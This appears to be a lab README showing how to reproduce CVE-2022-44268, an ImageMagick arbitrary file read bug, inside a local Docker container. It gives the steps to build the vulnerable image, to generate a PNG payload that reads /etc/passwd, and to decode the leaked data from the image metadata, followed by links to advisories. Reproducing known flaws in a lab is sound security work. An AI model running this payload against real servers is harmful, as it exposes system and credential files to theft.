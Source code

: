 ## How to use

### 1. Clone the project 
`git clone git@github.com:AltSolution/CVE.git`

### 2. Build docker image with vulnerable version of ImageMagic
```
cd CVE/CVE-2022-44268/
docker build -t cve-2022-44268 .
docker run -p 80:80 -d cve-2022-44268
```


### 3. Generate payload 

```
mkdir ~/cve-payload
cd mkdir ~/cve-payload
git clone https://github.com/voidz0r/CVE-2022-44268.git
apt install cargo
cargo run "/etc/passwd"
```


### 3. Make exploitation

1. Upload payload to http://127.0.0.1

2. Download result image to local folder

3. Extract useful metadata

`identify -verbose output.png`

4. Copy output of profile field to https://gchq.github.io/CyberChef/

5. Use "FromHex" and get result and get clear data.

### Links
1. [ImageMagic official site](https://imagemagick.org/index.php)
2. [Original report](https://www.metabaseq.com/imagemagick-zero-days/)
3. [Exploit DB](https://www.exploit-db.com/exploits/51261)
4. [Exploit for CVE-2022-44268 at GitHub](https://github.com/voidz0r/CVE-2022-44268)
5. [CVE Details about CVE-2022-44268](https://www.cvedetails.com/cve/CVE-2022-44268/)
6. [Snyc about CVE-2022-44268](https://security.snyk.io/vuln/SNYK-COCOAPODS-IMAGEMAGICK-3313085)
7. [Official patch of CVE-2022-44268](https://github.com/ImageMagick/ImageMagick6/commit/3c5188b41902a909e163492fb0c)

